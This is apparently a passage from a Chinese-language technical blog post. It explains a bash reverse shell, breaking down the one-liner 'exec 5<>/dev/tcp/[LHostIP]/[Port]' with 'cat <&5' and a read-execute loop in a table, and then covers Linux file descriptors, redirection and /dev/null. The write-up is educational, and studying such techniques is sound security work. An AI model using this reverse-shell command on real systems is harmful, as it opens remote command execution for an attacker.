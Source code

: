 {% blockquote myles007  https://www.anquanke.com/post/id/87017 %}
其实以上bash反弹一句完整的解读过程就是：

bash 产生了一个交互环境与本地主机主动发起与目标主机 `[Port]` 端口建立的连接（即 `TCP [Port]` 会话连接）相结合，然后在重定向个 `tcp [Port]` 会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。
{% endblockquote %}

第二条命令解释如下：

| 命令/符号 | 解释 |
| --- | --- |
| `exec 5<>/dev/tcp/[LHostIP]/[Port]` | 该命令会将文件描述符 5 与指定的 IP 地址和端口号建立 TCP 连接，使得通过文件描述符 5 读写的数据都会通过该连接传输。`[LHostIP]` 为本地主机的 IP 地址，`[Port]` 为本地主机监听的端口号。`<` 符号表示输入重定向，`>` 符号表示输出重定向。`&` 符号表示将文件描述符作为参数而不是文件名进行处理，`/dev/tcp/` 是一个特殊的文件系统，可以用于与其他主机进行网络通信。|
| `cat <&5` | 该命令会将文件描述符 5 的输入重定向到 `cat` 命令的标准输入上，使得通过该 TCP 连接传输的数据可以被 `cat` 命令读取。`<` 符号表示输入重定向。`&` 符号表示将文件描述符作为参数而不是文件名进行处理。 |
| `while read line; do $line 2>&5 >&5; done` | 该命令会不断读取 `cat` 命令的标准输入，将每一行数据存入变量 `line` 中，然后执行 `$line` 命令，将该命令的标准输出和标准错误输出都重定向到文件描述符 5 上，使得执行结果可以通过该 TCP 连接传输。`2>&5` 表示将标准错误输出重定向到文件描述符 5 上，`>&5` 表示将标准输出也重定向到文件描述符 5 上。`while` 循环会持续执行，直到 `cat` 命令的标准输入被关闭或者连接断开。|

{% hideToggle Linux 输入输出那些事,orange, %}

关于 shell 中的重定向、 `&>file` 、 `2>&1` 、`1>&2` 、`/dev/null` 的一些知识点：

1. Linux 中把所有设备全部视作文件，而在默认情况下，有三个文件始终处于打开状态：

| 类型 | 方式 | 文件描述符 |
| --- | --- | :---: |
| 标准输入 | 键盘输入 | 0 |
| 标准输出 | 输出到屏幕 | 1 |
|标准错误 |  输出到屏幕 | 2 |

2. 关于重定向：

| 命令              | 说明                                       |
| -----------------| -------------------------------------------|
| `command > file`   | 将输出重定向到 file                        |
| `command < file`   | 将输入重定向到 file                        |
| `command >> file`  | 将输出以追加的方式重定向到 file             |
| `n > file`         | 将文件描述符为 n 的文件重定向到 file       |
| `n >> file`        | 将文件描述符为 n 的文件以追加的方式重定向到 file |
| `n >& m`           | 将输出文件 m 和 n 合并                      |
| `n <& m`           | 将输入文件 m 和 n 合并                      |
| `<< tag`           | 将开始标记 tag 和结束标记 tag 之间的内容作为输入 |

3. 关于 `/dev/null/` ：

`/dev/null` 是一个特殊的设备文件，在类Unix操作系统中经常被用来丢弃不需要的输出或输入流。它是一个黑洞或空设备，任何写入它的数据都将被丢弃，而读取它则会立即返回 EOF（文件结束符）。

在 Linux 系统中，`/dev/null` 通常被用来丢弃不需要的输出。例如，当我们使用一个命令并希望将其输出丢弃而不是打印在屏幕上时，我们可以使用重定向将其输出重定向到 `/dev/null` 。例如，`command > /dev/null` 将会将 `command` 的标准输出（ `stdout` ）重定向到 `/dev/null` 中，从而丢弃输出。
